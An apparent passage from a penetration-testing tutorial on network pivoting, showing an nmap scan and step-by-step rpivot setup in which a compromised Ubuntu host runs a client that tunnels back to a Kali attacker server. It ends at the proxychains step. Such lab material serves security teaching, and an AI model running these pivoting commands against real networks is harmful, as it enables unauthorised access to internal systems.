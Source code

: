 **3.** We can now use any tool directly without using proxychains.

```shell-session
nmap -v -sV -p3389 10.10.20.3 -A -Pn
```


## Web Server Pivoting with Rpivot

### Pivoting to access a web server on an internal network

[Rpivot](https://github.com/klsecservices/rpivot) is a reverse SOCKS proxy tool written in Python for SOCKS tunneling. Rpivot binds a machine inside a corporate network to an external server and exposes the client's local port on the server-side.

| NIC | Attacker machine: kali | Attacked machine 1: ubuntu | Attacked machine 2: Windows |
| --- | ---------------------- | -------------------------- | --------------------------- |
| 1   | 10.10.10.2/24          |                            |                             |
| 2   |                        | 10.10.50.2/24              |                             |
| 3   |                        | 172.10.20.2/24             | 172.10.20.3/24              |

And an External Network at 10.10.40.0

We will take the scenario above, where we have a web server on our internal network (`172.10.20.135`), and we want to access that using the rpivot proxy.

**1.** Install rpivot in kali attacker machine:

```shell-session
git clone https://github.com/klsecservices/rpivot.git
```

**2.** Run server.py  with python2.7 from the kali attacker machine:

```shell-session
cd rpivot

python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
```

**3.** Transfer rpivot folder to the target, the attacked machine 1: ubuntu.

```shell-session
scp -r rpivot ubuntu@10.10.50.2:/home/ubuntu/
```

**4.** Run client.py from the pivot target (attacked machine 1: ubuntu):

```shell-session
~/rpivot$ python2.7 client.py --server-ip 10.10.10.2 --server-port 9999

# We will see a connection
New connection from host 10.10.50.2, source port 35226

```

**5.** Configure proxychains to pivot over our local server on 127.0.0.1:9050 on our attacker machine, which was initially started by the Python server.
